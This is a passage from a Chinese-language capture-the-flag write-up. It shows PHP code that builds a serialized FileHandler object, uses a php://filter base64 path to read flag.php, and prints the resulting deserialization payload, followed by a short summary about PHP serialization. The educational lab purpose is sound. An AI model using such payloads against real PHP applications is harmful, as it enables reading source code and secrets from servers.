 于是可以这样生成payload

```
<?php
	class FileHandler {
		public $op = 2;
		public $filename = "php://filter/read=convert.base64-encode/resource=flag.php";
		public $content = "";
	}
	$a = new FileHandler();
	echo(serialize($a));
?>
```

```txt
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";s:0:"";}
```

![image-20210824142956654](image-20210824142956654.png "直接当作public")

同样可以拿到flag。

### 总结

这题的意义在于**php的序列化与反序列化**、**序列化结果字段的含义**、**php7.1版本对于序列化反序列化操作的变化**

### 参考链接

- [PHP 序列化（serialize）格式详解](https://www.neatstudio.com/show-161-1.shtml)

## 0x06 [SUCTF 2019]CheckIn
